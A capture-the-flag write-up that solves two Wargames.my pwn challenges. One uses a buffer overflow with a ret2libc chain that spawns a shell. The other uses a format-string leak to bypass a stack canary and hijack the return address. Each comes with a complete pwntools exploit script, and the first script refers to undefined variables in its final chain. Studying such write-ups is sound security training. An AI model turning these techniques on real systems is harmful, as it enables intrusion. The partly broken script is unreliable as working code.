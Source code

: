 ```yaml
---
toc: true
title: "WGMY CTF (Top #15)"
description: Wargames.my
date: 2023-12-16
author: Duc Anh Nguyen
---
```


## [1. Pwn: Magic Door](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/magic-door/challenge)
```shell
pwndbg> checksec
[*] '/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
<details open>
  <summary><b>Source</b></summary>

  ```c
  char *open_the_door()
{
  char s1[12]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  initialize();
  puts("Welcome to the Magic Door !");
  printf("Which door would you like to open? ");
  __isoc99_scanf("%11s", s1); // Enter 050015 here
  getchar();
  if ( !strcmp(s1, "50015") )
    return (char *)no_door_foryou();
  v2 = atoi(s1);
  if ( v2 != 50015 )
    return (char *)no_door_foryou();
  else
    return magic_door();
}
```

```c
char *magic_door()
{
  char s[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v2; // [rsp+18h] [rbp-38h]
  __int64 v3; // [rsp+20h] [rbp-30h]
  __int64 v4; // [rsp+28h] [rbp-28h]
  __int64 v5; // [rsp+30h] [rbp-20h]
  __int64 v6; // [rsp+38h] [rbp-18h]
  __int64 v7; // [rsp+40h] [rbp-10h]
  __int64 v8; // [rsp+48h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  puts("Congratulations! You opened the magic door!");
  puts("Where would you like to go? ");
  return fgets(s, 256, stdin);
}
  ```
</details>

Easy to see that there is a buffer overflow in magic_door. In order to get to it you have to pass the `open_the_door` function first. The task is to pass these two seemmingly contradicting conditions:

| Conditions      | Description |
| ----------- | ----------- |
|`!strcmp(s1, "50015")` |    strcmp returns 0 if equal -> if "50015" is entered: !0 -> true and you are not able to proceed|
|`v2 = atoi(s1); v2 != 50015`|  Check if atoi(input) == 50015|

Enter 050015 should satisfy first condition and atoi will ignore leading zero also. Now it's just ret2libc for the `magic_door` function (since NX is enabled so no shellcode). Now is just to leak the libc address via puts and perform ret2libc.

<details>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
from LibcSearcher import *

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)


#debug(cmd='''b *magic_door+135''')
print(p.recvuntilS("open?"))

p.sendline("050015")
print(p.recvuntilS("go?"))

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

log.info("pop rdi: " + hex(pop_rdi))
log.info("Puts@plt: " + hex(puts_plt))
log.info("Puts got: " + hex(puts_got))
log.info("Main: " + hex(main))

payload = b'A' * 72 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main) # leak put address and return to main to execute system command after knowing libc
p.sendline(payload)

p.recv()
puts_leak = u64(p.recv(6).ljust(8,b"\x00")) 

log.info("Puts leak " + hex(puts_leak))
libc = LibcSearcher("puts", puts_leak) # using libc searcher right here, if there is libc error you have to manually addd libc to libcsearcherfolder.

p.sendlineafter(b"Which door would you like to open?",b"050015")

rop  = b"A"* 72
rop += ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])

p.sendlineafter(b"Where would you like to go?",rop)
p.interactive()

#print(p.recvall(timeout=1))

```
</details>


## [2. Pwn: Pakmat Burger](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/pakmatburger/challenge)

<details open>
<summary><b>Source</b></summary>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *s2; // [rsp+0h] [rbp-40h]
  char s1[9]; // [rsp+Ah] [rbp-36h] BYREF
  char phonenum[10]; // [rsp+13h] [rbp-2Dh] BYREF
  char format[12]; // [rsp+1Dh] [rbp-23h] BYREF
  char v8[15]; // [rsp+29h] [rbp-17h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  initialize(argc, argv, envp);
  s2 = getenv("SECRET_MESSAGE");
  if ( s2 )
  {
    puts("Welcome to Pak Mat Burger!");
    printf("Please enter your name: ");
    __isoc99_scanf("%11s", format);
    printf("Hi ");
    printf(format);
    printf(", to order a burger, enter the secret message: ");
    __isoc99_scanf("%8s", s1);
    if ( !strcmp(s1, s2) )
    {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf("%14s", v8);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      return (unsigned int)fgets(phonenum, 100, stdin);
    }
    else
    {
      puts("Sorry, the secret message is incorrect. Exiting...");
      return 0;
    }
  }
  else
  {
    puts("Error: SECRET_MESSAGE environment variable not set. Exiting...");
    return 1;
  }
}
```

```c
int secret_order()
{
  return system("cat ./flag.txt");
}
```
</details>

Examining the source code, there is a format string vulnerability in `printf(format)`. Using this we can leak the secret and bypass the secret requirements. Use %1$p for example to leak an address on the stack.

 Also we can use it to bypass the canary. `return (unsigned int)fgets(phonenum, 100, stdin);` is just straight up a buffer overflow vulnerability. Phonenum length is only 10 but `fgets` allows 100 characters to be put in the array. Overflow and return to the `secret_order` function to get the flag. 

Since the secret does not change and I can only use the format vulnerablity to leak two out of three key information for this challenge, I have to connect to the server twice, first call is to leak the secret and the second time is for full exploitation.

<details open>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
import re

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/pakmatburger/challenge/pakmat_burger")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)



# Grab secret the first time
print(p.recvuntilS("name:"))
p.sendline(b"%6$s")
secret = p.recvuntil(",")[:-1].decode().split()[1]
log.info("Secret " + secret)
p.close()

# Run again:
# p = process(elf.path, stdin=pty, stdout=pty)
p = remote(host,port)
# debug(cmd='''
# b *main+373
# ''')

print(p.recvuntilS("name:"))
p.sendline(b"%13$p.%17$p") # 13 is canary, 17 is main
leak = p.recvuntil(",")[:-1].decode().split()[1].split(".")
canary = leak[0]
main_leak = leak[1]
pop_rdi = 0x000000000000101a

log.info("Canary " + canary)
log.info("Main " + main_leak)
canary = int(canary, 16)
main_leak = int(main_leak, 16)
ret_offset = main_leak + 394  # calculate these by deducing them in gdb 
secret_offset = main_leak - 22
log.info("Ret " + f"0x{ret_offset:016x}")
log.info("Secret Order " + f"0x{secret_offset:016x}") # Calculate secret order address
p.sendline(secret)

print(p.recvuntilS("order?"))
p.sendline(b"Test")
print(p.recvuntilS("soon:"))

payload = b"A"*37 + p64(canary) + b"A"*8 + p64(ret_offset) + p64(secret_offset)  # Overflow the buffer and return to the secret function.

p.sendline(payload)
p.recvall(timeout = 1)
# """ 
# Code For finding offset from canary til ret. it was 8 
# p.wait()
# core = p.corefile
# stack = core.rsp
# log.info("rsp = %#x", stack)
# pattern = core.read(stack, 4)
# rip_offset = cyclic_find(pattern)
# log.info("rip offset is %d", rip_offset)
# """

p.interactive()
```
</details>